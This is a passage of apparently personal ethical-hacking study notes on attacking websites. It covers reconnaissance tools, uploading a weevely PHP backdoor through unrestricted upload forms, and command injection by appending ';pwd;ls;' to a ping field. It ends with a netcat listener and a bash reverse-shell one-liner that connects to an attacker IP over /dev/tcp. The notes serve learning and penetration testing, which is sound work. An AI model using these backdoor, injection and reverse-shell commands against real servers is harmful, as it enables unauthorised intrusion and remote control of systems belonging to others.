         * Then able to run any exploit

# Website Hacking

* You can try to attack a webserver via different ways: web application pentesting (vulnerabilities), server-side attack, client side attack (admin targeting)

## Information Gathering

* IP address and server info: Use Maltego, zenmap, netdiscover ...
* Domain name info: Whois lookup - https://whois.domaintools.com
* Technologies used: Netcraft site report - http://toolbar.netcraft.com/site_report?url= // Wappalyzer
* DNS records: Robtex DNS Lookup - https://www.robtex.com
* Other websites on the same server
    * Using bing.com, search for "ip:<target ip>"
    * Reverse DNS performed by Robtex (maybe not all of them will be listed)
* Unlisted subdomains: use https://github.com/guelfoweb/knock.git
* Unlisted files and directories:
    * List: dirb <target> <wordlist> <options>
    * Analyze: login page, myphpinfo.php, robots.txt

## File Upload, Code Execution, File Inclusion Vulnerabilities

### File upload forms vulnerabilities

* when no restrictions have been put on file upload form, allowing user to upload executable files such as php.
* Upload a php shell or backdoor via weevly (generate a shell - designed for web application pentesting)
    * generate backdoor: weevly generate <password> <filename>
    * upload generated file
    * connect to it: weevly <url to file> <password>

### Form Field / URL Code Execution Vulnerabilities

* when no restriction or sanitazation have been put on form fields executing code on the server, allowing an attacker to execute OS commands
    * ex: form asking for an IP, then executing the ping command
    * type: <ip>;pwd;ls; ... (use ; to execute other commands)
* can be used to get a reverse shell or upload any file using wget command
* code execution commands attached in the resources

        //CODE EXECUTION COMMAND

        The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.
        Therefore in all f these cases you need to listen for port 8080 using the foolowing command
        nc -vv -l -p 8080


        BASH
        bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
